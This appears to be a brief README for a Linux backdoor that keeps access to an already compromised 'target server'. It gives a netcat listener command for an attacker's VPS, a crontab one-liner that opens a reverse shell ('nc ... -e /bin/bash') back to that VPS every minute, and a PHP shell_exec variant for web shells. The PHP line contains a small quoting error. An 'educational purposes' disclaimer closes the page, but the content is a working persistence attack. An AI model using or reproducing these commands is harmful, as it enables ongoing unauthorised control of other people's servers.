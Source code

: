 
Linux  backdoor
* You need vps(aws).
### Linux/Ubuntu
* On the VPS run netcat listener   nc -lnvp 4444   (you can type whatever port you want).
* When you have reverse shell or php shell with remote code execution allowed on the target server use this script to create a cronjob which
 connect your target to your VPS in every 1 minute.
* This is for reverse shell:
* echo "*/1 * * * *  nc your_vps_public_IP the_port_for_netcat  -e /bin/bash   > /dev/null 2>&1 &" > cron && cat cron | crontab -
* This is for php shell:
* <?php echo shell_exec("echo '*/1 * * * *  nc your_vps_public_IP the_port  -e /bin/bash   > /dev/null 2>&1 &' > cron && cat cron | crontab -)";?>

### Only for educational purposes!
### Use it on your own server!
